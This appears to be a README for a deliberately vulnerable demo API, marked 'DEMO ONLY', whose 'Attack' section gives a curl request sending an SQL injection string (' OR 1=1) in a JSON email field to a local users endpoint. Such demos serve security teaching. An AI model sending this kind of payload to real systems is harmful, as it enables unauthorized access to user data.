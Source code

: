 # unsecure-api
**DEMO ONLY** | Don't use in production

## Attack

```
curl -L -X POST 'http://localhost:3000/users' \
-H 'Content-Type: application/json' \
--data '{
  "email": "'email' OR 1=1"
}'
```